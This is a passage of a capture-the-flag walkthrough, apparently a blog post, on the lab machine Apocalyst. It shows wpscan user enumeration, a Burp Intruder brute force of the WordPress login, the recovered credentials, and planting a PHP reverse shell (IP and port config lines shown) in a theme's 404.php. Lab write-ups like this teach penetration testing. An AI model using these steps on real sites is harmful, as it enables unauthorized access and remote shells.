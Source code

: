      | Author URI: https://wordpress.org/
    [+] Enumerating plugins from passive detection …
    [+] No plugins found
    [+] Enumerating usernames …
    [+] Identified the following 1 user/s:
     + — — + — — — — — + — — — — — — — — — — — — — — — — — -+
     | Id | Login | Name |
     + — — + — — — — — + — — — — — — — — — — — — — — — — — -+
     | 1 | falaraki | falaraki — Apocalypse Preparation |
     + — — + — — — — — + — — — — — — — — — — — — — — — — — -+

We can see that wpscan found a bunch of possible vulnerabilities and a user named falaraki. Maybe let’s brute force wordpress with the word-list we got from the image on `http://10.10.10.46/wp-login.php`
I captured a test request in Burp Suite at the login page and sent it over to the intruder option.

![](https://cdn-images-1.medium.com/max/1000/1*p0dXvfwtCk_kh8uqzCDqiw.png)


Were going to select the password `pwd` parameter only and the Attack type will be Sniper. We move onto to the payloads section and add the list we got from the image. Then start the attack - all requests sent back a 200 status code and most of them had a 3101 in length except this one request that had 3764 in length meaning it either worked as the correct password, timed out, or it gave us a unique error that only that password can give.

![](https://cdn-images-1.medium.com/max/800/1*Tiqvzm1l1lT7UN9AcbU84g.png)


Let’s try to login with that password Transclisiation
username: *falaraki*
password: *Transclisiation*

![](https://cdn-images-1.medium.com/max/1000/1*plGEQ7DQEXziA5bzM2pwwQ.png)


**…and were in!**

![](https://cdn-images-1.medium.com/max/600/1*cQH6tQQJVn8UCSqfPv4sWg.gif)


Now we can upload our php reverse shell in the Appearance Editor. I got my php shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) I’m not going to paste the entire code here because it’s a lot of code, so all you have to do is change your ip and port number. Where it says //CHANGE THIS to your ip and desired port number.

    $ip = ‘127.0.0.1’; // CHANGE THIS
    $port = 1234; // CHANGE THIS
![](https://cdn-images-1.medium.com/max/1000/1*pPSCaR3SLq6bJp03dl7BnA.png)


Save the changes made to the file once your reverse shell is in and setup your netcat or metasploit listener. Then execute the php reverse shell.
http://apocalyst.htb/wp-content/themes/twentyseventeen/404.php
